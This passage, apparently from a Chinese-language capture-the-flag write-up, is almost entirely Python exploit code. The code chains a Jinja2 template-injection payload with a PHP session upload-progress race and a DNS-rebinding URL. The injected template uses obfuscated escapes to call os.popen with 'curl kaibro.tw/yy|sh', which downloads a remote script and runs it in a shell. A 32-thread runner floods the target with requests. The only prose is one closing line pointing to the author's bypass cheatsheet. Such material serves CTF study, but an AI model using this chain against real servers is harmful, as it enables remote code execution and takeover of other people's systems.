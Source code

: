 ```python
{% if b['__class__']=={}['__class__'] %}
{% if 'eval' in b['keys']() %}
{% if b['eval']('__import__("os")\\x2epopen("curl kaibro\\x2etw/yy\\x7csh")') %}{% endif %}
{% endif %}
{% endif %}
{% endfor %}
{% endif %}
{% endfor %}
"""

def runner1(i):
    data = {
        'PHP_SESSION_UPLOAD_PROGRESS': payload
    }
    while 1:
        fp = open('/etc/passwd', 'rb')
        r = requests.post(HOST, files={'f': fp}, data=data, headers=headers)
        fp.close()

def runner2(i):
    filename = '/var/lib/php/sessions/sess_' + sess_name
    # print filename
    while 1:
        url = '{}?%F0%9F%87%B0%F0%9F%87%B7%F0%9F%90%9F=http://36573657.7f000001.rbndr.us:5000//korea/error_page%3Ferr={}'.format(HOST, filename)
        r = requests.get(url, headers=headers)
        c = r.content
        print [c]

if sys.argv[1] == '1':
    runner = runner1
else:
    runner = runner2

pool = ThreadPool(32)
result = pool.map_async( runner, range(32) ).get(0xffff)
```

對於繞過 SSTI 限制的細節，可以參考我的CheatSheet: [Link](https://github.com/w181496/Web-CTF-Cheatsheet#flaskjinja2) 

